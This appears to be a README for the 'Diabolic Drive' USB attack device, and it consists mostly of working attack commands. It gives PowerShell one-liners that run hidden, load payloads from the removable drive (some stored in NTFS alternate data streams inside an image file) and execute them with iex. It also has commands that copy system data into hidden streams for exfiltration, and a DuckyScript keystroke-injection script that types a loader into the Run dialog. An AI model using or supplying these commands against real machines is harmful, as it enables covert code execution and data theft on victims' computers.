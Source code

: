 ### Normal Payload Delivery Utilizing the Diabolic Drive Flash Storage

powershell -nologo  -WindowStyle Hidden -c (type ((Get-WmiObject Win32_Volume -Filter DriveType='2').Name + 'payload.txt') | iex)

### Payload Delivery Utilizing the Alternate Data Streams With No Exit Window

powershell -nologo -noexit -c (type ((Get-WmiObject Win32_Volume -Filter DriveType='2').Name + 'test.jpg:payload.txt') | iex)

### Payload Delivery Utilizing the Alternate Data Streams With No Window

powershell -nologo  -WindowStyle Hidden -c (type ((Get-WmiObject Win32_Volume -Filter DriveType='2').Name + 'test.jpg:payload.txt') | iex)

### Data Exfiltration Using Alternate Data Streams With No Exit Window

powershell -nologo -noexit -c (ipconfig | Add-Content -Path ((Get-WmiObject Win32_Volume -Filter DriveType='2').Name + 'test.jpg:exfil.txt'))

### Data Exfil Using Alternate Data Streams With No Window

powershell -nologo -WindowStyle Hidden -c (ipconfig | Add-Content -Path ((Get-WmiObject Win32_Volume -Filter DriveType='2').Name + 'test.jpg:exfil.txt'))

## Notes :
### You can make more than one alternate data stream file for one file. For example, a test.jpg file might have 2 alternate data streams, which are test.jpg:payload.txt and test.jpg:exfil.txt

## DuckyScript Examples
DELAY 1000
<br>
GUI r
<br>
DELAY 1000
<br>
STRING powershell -nologo  -WindowStyle Hidden -c (type ((Get-WmiObject Win32_Volume -Filter DriveType='2').Name + 'test.jpg:payload.txt') | iex)
<br>
DELAY 1000
<br>
ENTER
<br>

## Learn More!
https://www.crowdsupply.com/unit-72784/diabolic-drive/updates/alternate-data-streams-ads-for-covert-payload-delivery-and-data-exfiltration

